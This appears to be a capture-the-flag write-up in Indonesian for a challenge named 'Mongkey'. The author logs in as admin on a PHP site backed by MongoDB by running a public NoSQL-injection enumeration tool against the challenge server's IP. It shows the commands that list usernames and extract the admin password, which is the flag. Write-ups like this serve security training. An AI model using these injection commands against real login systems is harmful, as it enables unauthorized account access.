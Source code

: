 # Mongkey
## About The Challenge

![image](https://github.com/qodrizizi/CTF_WRITEUP/assets/111678241/f1e9c856-7778-470f-90a4-409e514e0e54)

Diberikan sebuah website http://103.167.136.89:10002/ dengan tampilan :
![image](https://github.com/qodrizizi/CTF_WRITEUP/assets/111678241/638daf3e-7f04-4575-bc70-15c3f4ad148d)

# Solutions

Dalam challenge kita diharuskan login sebagai admin untuk mendapati flagnya
Dalam challenge juga saya mendapati petunjuk yaitu "Do you know if it is possible to post an array in PHP? I use MongoDB btw"
saya berpikir bahwa ini merupakan sejenis SQL Injection namun dalam bentu mongodb saya berpikir menggunakan tool NosQLI MongoDB injection
menggunakan tool yang saya dapatkan dari [sini](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/tree/master)
setelah mendapatkan file toolnya menggunakan git clone

saya memasukkan perintah, untuk mencari username yang terdapat didalam website :
```shell
python3 nosqli-user-pass-enum.py -u http://103.167.136.89:10002/ -up username -pp password -ep username -op login:login
```
saya mendapati bahwa username didalam website ini ada dua yaitu :
```shell
2 username(s) found:
admin
guest
```
/home/ahmad/Gambar/Cuplikan Layar/Cuplikan layar dari 2023-06-15 15-55-27.png

guest bukanlah username untuk medapatkan flagnya maka saya berasumsi bahwa flag terdapat pada user 'admin', mari kita cari passwordnya dengan perintah :
```shell
python3 nosqli-user-pass-enum.py -u http://103.167.136.89:10002/ -up username -pp password -ep password -op login:login
```
setelah tool selesai melakukan tugasnya maka mendapati hasil
```shell
2 password(s) found:
guest
ForestyHC{reject_humanity_return_to_monke_5543d8}
```
![Screenshot from 2023-06-14 00-06-26](https://github.com/yogasungkowo/CTF-WRITEUP/assets/93362737/b5f1edc7-4fb2-4a8e-9968-0823d5b7b5c3)

wow ternyata password untuk user admin adalah flag yang kita cari cari

## Flag
**ForestyHC{reject_humanity_return_to_monke_5543d8}**
